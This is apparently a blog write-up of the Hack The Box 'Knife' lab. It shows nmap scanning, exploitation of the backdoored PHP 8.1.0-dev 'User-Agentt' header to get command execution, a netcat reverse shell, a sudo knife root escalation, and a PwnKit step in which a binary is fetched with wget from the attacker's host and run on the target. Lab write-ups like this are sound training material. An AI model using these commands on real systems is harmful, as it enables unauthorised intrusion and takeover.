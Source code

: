 ```yaml
---
title: Knife
published: true
layout: post
---
```


<br />

---------------
Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

<br />

<iframe style="display: block; margin: auto;" width="560" height="315" src="https://www.youtube.com/embed/dkUBdFwqKy4?si=s26SYzfXwAwA_9kW" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.242 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![All Ports](/assets/Knife/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services](/assets/Knife/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp Apache httpd 2.4.41**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![Vulnerabilities](/assets/Knife/3.png)
<br />
<br />
<br />

We only detect a **DoS vulnerability** for the **http service**, which is not useful.

<br />

------

<br />
### Foothold

I think this machine is pretty **beginner-friendly**, as we can solve it basically by enumerating and searching for exploits, however we have to understand what we are doing.

<br />

The first thing that revealed a vulnerability was the **technologies enumeration**:

```bash
whatweb http://10.10.10.242 > whatweb.txt
```

![Whatweb](/assets/Knife/4.png)
<br />
<br />
<br />

The version of PHP is definitely noteworthy, **8.1.0-dev**, the *-dev* suffix is not common in production environments, which leads me to search for a vulnerability using searchsploit:

```bash
searchsploit PHP 8.1.0-dev
```

![Searchsploit](/assets/Knife/5.png)
<br />
<br />
<br />

We can see an exploit that perfectly fits our version, so let's read it and try to replicate it:
![Exploit](/assets/Knife/6.png)
<br />
<br />
<br />

It seems that the script sends an HTTP request in which there is an uncommon header, *User-Agentt*, in which we can use the function `zerodiumsystem()` to **execute a command**, which output is printed before the *<!DOCTYPE html>* tag. Let's try it using BurpSuite:

![whoami](/assets/Knife/7.png)
<br />
<br />
<br />

It's working like a charm, let's send us a **reverse shell**:
```bash
rlwrap nc -nlvp 4444
```

![RevShell](/assets/Knife/8.png)
<br />
<br />
<br />

Let's print the flag and go for the privilege escalation:
<br />
![UserOwn](/assets/Knife/9.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation
For this machine, I discovered **two ways to escalate privileges**, the conventional one and an alternative one.

<br />
#### Conventional Privilege Escalation
Enumerating the system, I discovered that we are able to run the `knife` command as sudo without requiring a password:
```bash
sudo -l
```

![sudo](/assets/Knife/10.png)
<br />
<br />
<br />

A glimpse at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) uncovered the way:
```
sudo knife exec -E 'exec "/bin/bash"'
```
![knifeprivesc](/assets/Knife/11.png)
<br />
<br />
<br />

Now we just have to print the flag:
<br />
![RootOwn](/assets/Knife/12.png)

<br />
#### Alternative Privilege Escalation
The alternative privilege escalation method works through **CVE-2021-4034**, which is based on giving **SUID permission to an old version of the pkexec binary**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![SUID](/assets/Knife/13.png)
<br />
<br />
<br />

To exploit this vulnerability I used the [PwnKit](https://github.com/ly4k/PwnKit) created by **ly4k**, we just have to download it in our machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
sudo python3 -m http.server 80
```
<br />

And then **transfer it to the target machine and run it**:

```bash
wget http://10.10.16.8/PwnKit
chmod +x PwnKit
./PwnKit
```

![PwnKit](/assets/Knife/14.png)
<br />
<br />
<br />

Now we just have to print the flag:
<br />
![RootOwn](/assets/Knife/12.png)
<br />
<br />
<br />
